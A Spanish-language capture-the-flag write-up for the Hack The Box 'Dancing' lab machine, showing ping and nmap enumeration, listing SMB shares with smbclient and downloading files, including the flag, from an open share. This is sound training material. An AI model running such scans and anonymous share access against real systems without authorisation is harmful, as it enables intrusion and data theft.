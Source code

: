 ```yaml
---
title: Dancing
author: d3vjh
date: 2024-02-15 12:00:00 +0000
categories: [Security, HTB]
tags: [Windows, Enumeration, Exploitation]
image: /assets/img/commons/Dancing/Dancing.png
---
```


Dancing es una máquina del Starting Point, para ser de Sistema Operativo Windows, es una excelente máquina para iniciar

## Recopilación de información

![Untitled](/assets/img/commons/Dancing/1.png)

```bash
❯ ping -c 1 10.129.197.183
PING 10.129.197.183 (10.129.197.183) 56(84) bytes of data.
64 bytes from 10.129.197.183: icmp_seq=1 ttl=127 time=84.5 ms


--- 10.129.197.183 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 84.479/84.479/84.479/0.000 ms
```

De esta traza `ICMP` podemos obtener que, debido al `ttl=127`, estamos frente a una máquina Windows.

Hacemos un escaneo con la herramienta **nmap**:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.197.183 -oG allPorts
```

Resultado:
```bash
PORT      STATE SERVICE      REASON
135/tcp   open  msrpc        syn-ack ttl 127
139/tcp   open  netbios-ssn  syn-ack ttl 127
445/tcp   open  microsoft-ds syn-ack ttl 127
5985/tcp  open  wsman        syn-ack ttl 127
47001/tcp open  winrm        syn-ack ttl 127
49664/tcp open  msrpc        syn-ack ttl 127
49665/tcp open  msrpc        syn-ack ttl 127
49666/tcp open  msrpc        syn-ack ttl 127
49667/tcp open  msrpc        syn-ack ttl 127
49668/tcp open  msrpc        syn-ack ttl 127
49669/tcp open  msrpc        syn-ack ttl 127
```

Luego, realizamos un escaneo más detallado para identificar versiones y servicios:

```bash
nmap -sCV -p135,139,445,5985,47001,49664,49665,49666,49667,49668,49669 10.129.197.183 -oN targeted
```

Resultado:
```bash
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? 
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
...
```

## Análisis de vulnerabilidades

Por el puerto `445`, encontramos que está corriendo `microsoft-ds?`, relacionado con `SMB`. Este servicio puede ser explotado para compartir recursos en la red. Usando `smbclient`, listamos los servicios disponibles:

```bash
smbclient -L 10.129.197.183
```

Salida:
```bash
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	WorkShares      Disk
```

Nos conectamos al recurso `WorkShares`:

```bash
smbclient \\\\10.129.197.183\\WorkShares
```

Salida:
```bash
smb: \> ls
  .                                   D        0  ...
  Amy.J                               D        0  ...
  James.P                             D        0  ...
```

## Explotación de vulnerabilidades

Entramos al directorio `Amy.J` y descargamos un archivo:

```bash
smb: \Amy.J\> get worknotes.txt
```

Hacemos lo mismo en `James.P`:

```bash
smb: \James.P\> get flag.txt
```

## Post-Explotación

Revisamos los archivos descargados y analizamos el contenido:

![Archivo 1](/assets/img/commons/Dancing/2.png)  
![Archivo 2](/assets/img/commons/Dancing/3.png)

